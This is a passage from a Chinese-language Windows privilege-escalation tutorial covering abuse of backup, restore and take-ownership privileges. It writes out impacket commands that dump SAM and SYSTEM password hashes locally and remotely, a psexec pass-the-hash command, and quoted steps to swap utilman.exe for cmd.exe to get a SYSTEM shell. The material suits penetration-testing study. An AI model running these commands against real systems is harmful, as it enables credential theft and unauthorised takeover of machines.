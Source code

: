 将其拖到本机读取哈希。

```plaintext
python /impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

如果有此用户账户甚至可以远程导哈希。

```plaintext
python /impacket/examples/secretsdump.py <UserName>:<Password>@<Host>
```

获取到哈希进行 PTH。

```plaintext
python /impacket/examples/psexec.py -hashes <Hash> <UserName>@<Host>
```

#### 1.2.2 SeRestorePrivilege

SeRestorePrivilege 权限用于给恢复设置的用户设置的，域中是 Backup Operators 组成员，启用此权限后可以向系统上任何地方写入内容。Windows 10 还是一样，需要高完整度才有此权限。

可以尝试 DLL 劫持，很多应用都是 System32 下的 DLL。

或者尝试替换 utilman.exe 成为 System。

> 1.  Launch PowerShell/ISE with the SeRestore privilege present.
> 2.  Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).
> 3.  Rename utilman.exe to utilman.old
> 4.  Rename cmd.exe to utilman.exe
> 5.  Lock the console and press Win+U
> 
> [https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin](https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin)

#### 1.2.3 SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege 权限有权设置任何内容的所有者。这个所有者和 Linux 文件 ownner 一致，代表你当前有权管理它。

![所有者.png](assets/1708583580-703bbd753413ba191826bdc29f490a0f.png)
